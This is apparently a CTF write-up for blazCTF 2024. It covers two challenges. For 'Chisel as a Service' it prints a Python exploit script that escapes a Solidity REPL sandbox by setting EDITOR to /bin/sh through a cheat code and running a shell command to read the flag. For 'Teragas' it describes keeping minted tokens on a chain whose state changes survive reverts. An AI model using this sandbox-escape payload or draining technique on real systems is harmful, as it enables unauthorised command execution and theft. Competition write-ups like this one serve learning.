 ```yaml
---
title: (CTF) blazCTF 2024 writeup (Chisel as a Service, teragas)
description: blazCTF writeup
categories: [CTF,WEB3]
tags : [writeup,web3]
date : 2024-09-27 05:02:13 +0900
author:
    name:
    link:
toc: true
comments: true
mermaid: true
math: true
---
```


I played blaz CTF as [KimchiPremium](https://x.com/Web3Kimchi), had a lot of fun with the awesome kimchi hackers 

## Chisel as a Service
---
> Chisel as a Service
> Mina just develops a highly robust Solidity sandbox!
> 
> 
> Connect to Challenge: nc chisel-as-a-service.chal.ctf.so 1337
> Your Ticket: 2b88a986-595d-45b0-9a24-2aa11a6c5c6d
> 
> 
> Handouts
> 
> 
> /* Author: minaminao */
> 
> \# Solidity,Sandbox / 25 solves / 371 pts

The server runs `chisel` with the `--no-vm` option, and the -e (or -exec) keyword is disabled. The flag's filename is random, so we need to get a shell."

### chisel commands
---

```
No solidity versions installed! Installing solidity version 0.8.19...
Welcome to Chisel! Type `!help` to show available commands.
⚒️ Chisel help
=============
General
    !help | !h - Display all commands
    !quit | !q - Quit Chisel
    !exec <command> [args] | !e <command> [args] - Execute a shell command and print the output

Session
    !clear | !c - Clear current session source
    !source | !so - Display the source code of the current session
    !save [id] | !s [id] - Save the current session to cache
    !load <id> | !l <id> - Load a previous session ID from cache
    !list | !ls - List all cached sessions
    !clearcache | !cc - Clear the chisel cache of all stored sessions
    !export | !ex - Export the current session source to a script file
    !fetch <addr> <name> | !fe <addr> <name> - Fetch the interface of a verified contract on Etherscan
    !edit - Open the current session in an editor

Environment
    !fork <url> | !f <url> - Fork an RPC for the current session. Supply 0 arguments to return to a local network
    !traces | !t - Enable / disable traces for the current session
    !calldata [data] | !cd [data] - Set calldata (`msg.data`) for the current session (appended after function selector). Clears it if no argument provided.

Debug
    !memdump | !md - Dump the raw memory of the current state
    !stackdump | !sd - Dump the raw stack of the current state
    !rawstack <var> | !rs <var> - Display the raw value of a variable's stack allocation. For variables that are > 32 bytes in length, this will display their memory pointer.
```
To execute shell commands, we need to find a command that uses `process::Command`. Not only the `exec` command, but also the `edit` command uses Command to open the editor.

```rust
ChiselCommand::Edit => {
    // create a temp file with the content of the run code
    let mut temp_file_path = std::env::temp_dir();
    temp_file_path.push("chisel-tmp.sol");
    let result = std::fs::File::create(&temp_file_path)
        .map(|mut file| file.write_all(self.source().run_code.as_bytes()));
    if let Err(e) = result {
        return DispatchResult::CommandFailed(format!(
            "Could not write to a temporary file: {e}"
        ))
    }

    // open the temp file with the editor
    let editor = std::env::var("EDITOR").unwrap_or_else(|_| "vim".to_string());
    let mut cmd = Command::new(editor);
    cmd.arg(&temp_file_path);

    match cmd.status() {
...
```
In the `edit` command, it saves the currently running code to `/tmp/chisel-tmp.sol` and then executes the editor with the file as an argument

With the [setEnv](https://book.getfoundry.sh/cheatcodes/set-env) function in the Vm cheat code, we can set the `EDITOR` environment variable to `/bin/sh` and execute the running code as a shell script. However, the `--no-vm `flag is set. What exactly does this flag do?

### --no-vm flag
---
```rust
 pub fn to_repl_source(&self) -> String {
    let Version { major, minor, patch, .. } = self.solc.version;
    let Self { contract_name, global_code, top_level_code, run_code, config, .. } = self;

    let (vm_import, vm_constant) = if !config.no_vm {
        (
            "import {Vm} from \"forge-std/Vm.sol\";\n",
            "Vm internal constant vm = Vm(address(uint160(uint256(keccak256(\"hevm cheat code\")))));\n"
        )
    } else {
        ("", "")
    };
```
In the chisel code, when the `--no-vm` flag is set, it doesn't import the `Vm` contract or set the `vm` constant. That's all. We can still call the cheat codes in the Vm contract using the address `address(uint160(uint256(keccak256("hevm cheat code"))))`.

By setting the `EDITOR` environment variable to `/bin/sh`, we can execute the contents of the running code as a shell script. However, the running code needs to be valid Solidity. To work around this, we can simply add a comment with `;` and run cat flag, like `//; cat /flag-*.`

### exploit
---
```python
import requests

url = "http://snwo.kr:3000/"

code = """
//;cat /flag-*
address hevm = address(uint160(uint256(keccak256("hevm cheat code"))));
interface VM { function setEnv(string calldata key, string calldata value) external; }
VM vm = VM(hevm);
vm.setEnv("EDITOR", "/bin/sh");
!edit
"""
uuid = requests.get(url+"run",params={"code":code}).json()['uuid']

r = requests.get(url+"out/"+uuid)
print(r.text)
```

## Teragas

> Teragas
> After getting exploited by REVMC bug, Tony started to hate Paradigm. Seeing Paradigm invested in so many parallel EVM chains and built Reth, Tony decided to build an even faster chain to compete with them.
> 
> This is a King Of the Hill challenge. The more ETHs you steal, the more points you would get. Submit your exploit at teragas.ctf.so
>  ... 
> /* Author: shoucccc */
> 
> \# KoH,EVM / 6 solves / 2500 pts
> 
> Team KimchiPremium: `1986007ETH`
> Team DPRK Workers In Your Company: 1796703ETH
> Team Wut is Ciallo: 1656267ETH
> Team Amber Labs: 1532119ETH
> Team offside_labs_interns: 1478952ETH
> Team DeFiHackLabs: 277542ETH
> Team shou: 0ETH

Just a brief writeup. we earned  a total of `19,986,007` ETH. There was a bug that each state-related opcodes do not recover the state when it reverts. So we can leverage this to bypass check balance or smth.

```solidity
    function join(address usr, uint wad) external note {
        vat.move(address(this), usr, mul(ONE, wad));
        dai.burn(msg.sender, wad);
    }
    function exit(address usr, uint wad) external note {
        require(live == 1, "DaiJoin/not-live");
        vat.move(msg.sender, address(this), mul(ONE, wad));
        dai.mint(usr, wad);
    }
```
For example, in the MakerDAO contract, tokens are minted first and then the balance is checked. Since the sstore opcode doesn’t revert the state when the transaction reverts, we were able to keep the minted tokens.

We drained all WETH pairs of top TVL swaps, as well as flash loan contracts, bridges, and smth... It was a lot of fun exploring the Ethereum chain to drain the contracts 🫠